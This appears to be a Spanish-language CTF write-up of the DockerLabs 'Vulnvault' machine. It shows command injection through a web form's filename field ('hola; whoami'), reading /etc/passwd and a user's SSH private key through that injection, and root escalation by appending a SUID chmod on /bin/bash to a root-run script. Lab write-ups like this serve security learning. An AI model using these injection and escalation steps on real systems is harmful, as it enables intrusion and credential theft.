

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/dockerlabs/vulnvault/index.html · generator: mkdocs

# Vulnvault

*22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))*

En la web de generar reportes se advierte que:
*Este sistema también está diseñado para demostrar la importancia de la seguridad en la generación de comandos. La entrada de datos debe ser manejada con cuidado para evitar la inyección de comandos maliciosos*
Intentaremos colar una Ejecución remota de comandos en el campo "Nombre del archivo" aplicando un string como "hola;" y posteriormente un comando ejecutable por bash.
`hola; whoami`
Conseguimos que ejecute el comando:

![](../../assets/img/Pasted_image_20251012161627.png)

Intentamos lanzar una terminal remota mediante esta ejecución de comandos sin exito.
vemos el contenido de /etc/passwd y descubrimos un usuario *samara*
*samara:x:1001:1001:samara,,,:/home/samara:/bin/bash*

Con hydra no podemos acceder por fuerza bruta

hacemos un cat a la clave ssh del usuario samara
`; cat /home/samara/.ssh/id_rsa` -> en campo nombre archivo de la web
`ssh samara@172.17.0.2 -i id_rsa_samara` -> En kali
**samara**

## Escalada

El usuario samara tiene un archivo *user.txt*
***030208509edea7480a10b84baca3df3e***
En base64 ->
MDMwMjA4NTA5ZWRlYTc0ODBhMTBiODRiYWNhM2RmM2U=

Probamos en root pero no es la contraseña
Vemos procesos que corren en el sistema y encontramos:
`00:03:32 /bin/sh -c service ssh start && service apache2 start && while true; do /bin/bash /usr/local/bin/echo.sh; done`
Vemos que el proceso */usr/local/bin/echo.sh* se ejecuta en bucle (`while true;`) y que está ejecutandolo *root*

Modificamos el archivo y añadimos código al final para dar permisos de SUID a la shell:
`echo 'chmod u+s /bin/bash' >> /usr/local/bin/echo.sh`
Ejecutamos una shell en modo privilegiado:
`bash -p`
**root**
